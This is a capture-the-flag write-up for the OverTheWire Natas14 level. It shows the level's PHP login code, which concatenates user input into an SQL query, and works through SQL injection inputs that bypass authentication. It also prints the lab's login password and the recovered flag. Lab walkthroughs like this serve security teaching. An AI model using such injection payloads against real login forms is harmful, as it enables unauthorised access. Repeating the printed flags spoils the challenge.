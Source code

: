 # CTF Writeup - **OverTheWire Natas13 - Natas14**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas13 - Natas14
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 13-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use inspect element to troubleshoot and find the flag.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas14
Password: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
URL:      http://natas14.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for login credentials as input.  But we dont know anything about it, So lets input some random names and check it out. 

```bash
Username: abc
Password: abc
Submit
```

Now we see that we get access denied. Lets try to get the proper login credentials by viewing the source code. 

```bash
# if(array_key_exists("username", $_REQUEST)) {
#     $link = mysqli_connect('localhost', 'natas14', '<censored>');
#     mysqli_select_db($link, 'natas14');

#     $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
#     if(array_key_exists("debug", $_GET)) {
#         echo "Executing query: $query<br>";
#     }

#     if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
#             echo "Successful login! The password for natas15 is <censored><br>";
#     } else {
#             echo "Access denied!<br>";
#     }
#     mysqli_close($link);
# } else {
# ?>
```

We can see that there is a small piece of code that is executed when we click on submit. That takes out input username, password and appends it to an sql string and checks if the return value has greater than 1 then its shows the password. Lets try playing with the input for usernames as showin below.

```bash
username: abc" OR \"a
password: 
SQL: SELECT * from users where username=\""abc" OR \"a"\" and password=\"""\""
# Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, bool given in /var/www/natas/natas14/index.php on line 24
# Access denied!
```

Now, we are getting error as its unable to find a entry in the table.  we can see that we need to give proper input such that the resulting sql query fetches more than one record. In order to achieve that, we know that out inputs are getting appended after `where` this elminates the option of `select *` to be inputed. One thing we can do is we can search for the users with username `abc` and those without `abc` together as shown below.  

```bash
username: abc" or username!="abc
password: abc" or password!="abc
SQL: SELECT * from users where username=\""abc" or username!="abc"\" and password=\""abc" or password!="abc"\""
# The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
```

## Flag

**Flag:** SdqIqBsFcz3yotlNYErZSZwblkm0lrvx


---

## Lessons Learned

It was a simple challenge. I would be best if you can use the owasp zap to see the sql query that is being sent. 